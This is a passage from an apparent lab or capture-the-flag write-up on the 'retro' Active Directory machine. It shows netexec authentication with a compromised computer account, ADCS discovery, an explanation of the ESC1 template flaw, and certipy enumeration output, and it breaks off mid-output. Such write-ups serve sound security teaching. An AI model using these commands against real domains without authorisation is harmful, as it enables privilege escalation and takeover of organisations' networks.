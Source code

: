We can now authenticate with the new password. 

```console
➜  retro nxc smb $ip -u 'banking$' -p 'Password123'
SMB         10.10.88.241    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.88.241    445    DC               [+] retro.vl\banking$:Password123
```

Now that we have working credentials for the `banking$` computer account, we can do additional enumeration. One thing to check is Active Directory Certificate Services (ADCS). A quick check with `netexec` shows that ADCS is in use. 

```console
➜  retro nxc ldap $ip -u 'banking$' -p 'Password123' -M adcs
SMB         10.10.88.241    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
LDAP        10.10.88.241    389    DC               [+] retro.vl\banking$:Password123
ADCS        10.10.88.241    389    DC               [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.10.88.241    389    DC               Found PKI Enrollment Server: DC.retro.vl
ADCS        10.10.88.241    389    DC               Found CN: retro-DC-CA
```

## Privilege Escalation

Knowing that ADCS is in use, we can enumerate vulnerable templates with `certipy`. It looks like there's a template that's misconfigured to be vulnerable to an escalation method known as `ESC1`. The main issue with this misconfiguration is the ability for the attacker to specify a different `subjectAltName` (SAN) when making the certificate request, essentially allowing the attacker to request a certificate as any user in the domain. In order to abuse ESC1, the following must be true:

- Low privileged users are granted enrollment rights
- Manager approval is not required
- No authorized signatures are required
- The certificate template defines EKUs that enable authentication
- Requestors are able to specify a SAN when requesting the certificate

```console
➜  retro certipy find -dc-ip $ip -u 'banking$' -p 'Password123' -enabled -vulnerable -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'retro-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 'retro-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'retro-DC-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'retro-DC-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : retro-DC-CA
    DNS Name                            : DC.retro.vl
    Certificate Subject                 : CN=retro-DC-CA, DC=retro, DC=vl
    Certificate Serial Number           : 7A107F4C115097984B35539AA62E5C85
    Certificate Validity Start          : 2023-07-23 21:03:51+00:00
    Certificate Validity End            : 2028-07-23 21:13:50+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
```
